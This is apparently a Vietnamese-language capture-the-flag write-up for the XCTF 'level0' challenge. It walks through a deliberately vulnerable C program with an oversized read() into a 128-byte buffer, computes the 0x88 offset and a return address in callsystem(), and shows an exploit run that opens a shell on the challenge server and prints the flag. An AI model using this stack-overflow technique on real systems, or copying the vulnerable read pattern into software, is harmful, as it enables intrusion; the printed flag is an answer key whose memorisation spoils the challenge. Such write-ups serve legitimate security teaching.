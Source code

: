 # XCTF - PWN Exercise - level0

```c
#include<stdio.h>

int callsystem()
{
  return system("/bin/sh");
}

ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ checksec level0 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/8_level0/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Đây là một bài khá đơn giản `stack buffer overflow`, mảng kí tự `buf` khai báo có 128 kí tự trong function `vulnerable_function()` nhưng hàm read đọc được 0x200 = 512 kí tự input và không có `canary`  => có thể `stack buffer overflow` ghi đè `return address`.

Trong các hàm của chương trình có sẵn hàm `callsystem` có thể thực thi lấy shell tương tác với server, bây giờ ta cần đi tìm `offset` và địa chỉ hàm `callsystem`.

 +) Địa chỉ của `buf` nằm ở `[rbp-80h]` cộng thêm 0x8 ghi đè `rbp` nữa là đến địa chỉ `return address` => offset = 0x80 + 0x8 = 0x88. 

 +) Tìm địa chỉ `callsystem` qua `gdb` [NOTE]: File x86_64 thay vì nhảy thẳng vào đầu hàm ta sẽ dịch địa chỉ lên 1 hoặc 2 `instructions ASM` để có thể lấy được `shell`, bài này ta sẽ chọn địa chỉ `0x0000000000400597`.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ gdb -q ./level0
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./level0...
(No debugging symbols found in ./level0)
pwndbg> p callsystem
$1 = {<text variable, no debug info>} 0x400596 <callsystem>
pwndbg> disass callsystem
Dump of assembler code for function callsystem:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	mov    edi,0x400684
   0x000000000040059f <+9>:	call   0x400460 <system@plt>
   0x00000000004005a4 <+14>:	pop    rbp
   0x00000000004005a5 <+15>:	ret    
End of assembler dump.
pwndbg> 
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 57359: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level0
lib
lib32
lib64
$ cat flag
cyberpeace{6b5deeebe3e4c0810b320cdab5e8040e}
$  
```
